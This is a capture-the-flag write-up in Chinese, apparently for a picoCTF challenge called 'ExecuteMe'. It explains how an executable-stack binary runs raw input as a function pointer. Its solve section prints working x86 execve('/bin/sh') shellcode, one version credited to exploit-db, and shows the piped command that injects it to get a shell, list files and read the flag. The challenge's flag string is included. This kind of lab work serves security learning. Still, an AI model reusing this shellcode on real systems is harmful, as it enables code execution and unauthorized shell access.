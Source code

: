 # ExecuteMe
 * [Makefile](Makefile)中，`-zexestack`把原本預設的`stack as non-executable``拿掉了，能在stack上執行任何code
 * [程式碼](execute.c) function_ptr
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
 * function pointer？
  * 每個function包含code和指到code的function pointer
  * code必須是**可執行的assembly code**
 * 而buf在傳給function_ptr，前，會先經過：`read(0, buf, 128);`
 * 因此，我們要創造的code，**不能包含\x0**，否則copy function會當作結束字元
 * server是x86
```
$ readelf -h execute
...
Class:    ELF32
Data:     2's complement, little-endia
...
OS/ABI:   UNIX - System V
...
Machine:    Intel 80386
```
## Solve
想自己寫一個但還沒成功，所以先用[網路上其他人做的x86 execve("/bin/sh")](https://www.exploit-db.com/exploits/37069/)：
`\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`
 * 放入程式執行
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 * 使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

